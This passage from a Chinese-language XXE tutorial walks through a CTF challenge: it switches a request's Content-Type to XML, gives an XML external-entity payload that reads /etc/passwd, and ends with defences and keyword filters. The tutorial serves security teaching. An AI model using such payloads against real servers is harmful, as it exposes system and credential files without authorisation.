 

### 6.1.2.**设置载荷**

这里由于我就开一台虚拟机，是192.168.10.50，我们添加51、52，51与52我都没开启。

 

### 6.1.3.**查看攻击效果**

从攻击的效果的响应时长来看，也就50的通的，其它都是不通的。

 

# 7.**更改Content-Type类型**

这里就是解释在xxe的盲猜，在不确定是否能够执行的时候，通过修改Content-Type头，让其能够识别xml的语句，实现漏洞利用。更改Content-Type头类型有：application/xml与text/xml。

## 7.1.**CTF题目案例**

CTF-Jarvis-OJ-Web-XXE(CTF题)访问地址：http://web.jarvisoj.com:9882/

### 7.1.1.**抓包**

通过抓包发现该靶场的数据的传输方式是json。

 

### 7.1.2.**修改类型**

这里我们需要将类型修改为xml。

 

### 7.1.3.**构建payload**

这里需要将原先下面输出的内容给删除，然后输入上payload。

payload：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [ 

<!ENTITY b SYSTEM "file:///etc/passwd" >

]>

<x>&b;</x>
```


### 7.1.4.**测试效果**

这里就可以看到我们成功读取到etc下的passwd内容。

 

# 8.**XXE漏洞防御**

## 8.1.**禁用外部实体**

使用开发语言提供的禁用外部实体的方法。

PHP：

libxml_disable_entity_loader(true);

JAVA:

DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();

dbf.setExpandEntityReferences(false);

Python：

from lxml import etree

xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

## 8.2.**过滤数据**

可以将用户提交的xml数据进行过滤，例如关键词：<!DOCTYPE和<!ENTITY，或者，SYSTEM和PUBLIC。

# 9.**参考**

[https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/](https://blog.szfszf.top/tech/blind-xxe-详解-google-ctf-一道题目分析/)

https://www.cnblogs.com/20175211lyz/p/11413335.html

https://xz.aliyun.com/t/3357#toc-8

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 